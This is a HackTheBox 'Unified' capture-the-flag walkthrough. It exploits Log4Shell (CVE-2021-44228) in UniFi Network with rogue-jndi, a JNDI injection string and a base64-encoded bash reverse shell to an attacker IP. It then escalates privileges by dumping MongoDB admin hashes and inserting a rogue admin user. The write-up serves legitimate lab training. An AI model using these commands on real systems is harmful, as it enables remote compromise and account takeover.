 ```yaml
---
title: Starting Point | Unified
author: Zeropio
date: 2022-04-30
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/unified
---
```



# Enumeration
First we scan the IP:
```
# Nmap 7.92 scan initiated Sat Apr 30 17:11:00 2022 as: nmap -A -oN nmap 10.129.213.225
Nmap scan report for 10.129.213.225
Host is up (0.091s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|_http-title: Did not follow redirect to https://10.129.213.225:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 30 17:13:57 2022 -- 1 IP address (1 host up) scanned in 176.85 seconds
```

---

# Explotation
We can see that UniFi Network has the version **6.4.54**, which correspond to **CVE-2021-44228**.
We can use this [guide](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) to perform the explotation.

We need to download **Maven** and the exploit:
```console
> sudo apt install maven
> git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Now we need to build a **nc** and send it to the Unified:
```console
> echo 'bash -c bash -i >&/dev/tcp/10.10.15.167/4444 0>&1' | base64
> java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY3LzQ0NDQgMD4mMQo}|{base64,-d}|{bash,-i}" --hostname "10.10.15.167" 
```

With Burp we need to capture the login request and change the parameter **"remember"** with: **"${jndi:ldap://10.10.15.167:1389/o=tomcate}"**.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/01-13-00-44.png" weight="100%" />

Open a nc on the port 4444 and send the request in Burp, now we have the reverse shell-

---

# Privilage Escalation
We know that Unified use MongoDB. First we will dump the password hashes from the database:
```console
> mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

We can try to crack the admin password, but we will add a new super user. First we make a new hash.
```console
> mkpasswd -m sha-512 1234
```

Then we add the user:
```console
> mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "admin@localhost.local", "last_site_name" : "default", "name" : "admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$qm/d5rgtChdHSEXn$.YaObD5D3HuqhAXKtj7vpEn5Fwmw9yPgkydVUySQ2bBv522IEaSWr3.kYxLa22n5qHcXxU2ANiQzOrh.G4dli." })'
```
We can check it we the same command.
```console
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Now we need to copy our **object id** and the admin **object id** and replace:
```console
> mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "626e85b9f56273cd5f3e6b9e", "permissions" : [ ], "role" : "admin", "site_id" : "61ce278f46e0fb0012d47ee4" });'
```

Now we can login with our new user. We can find ssh credentials inside the configuration, so we can login with root.
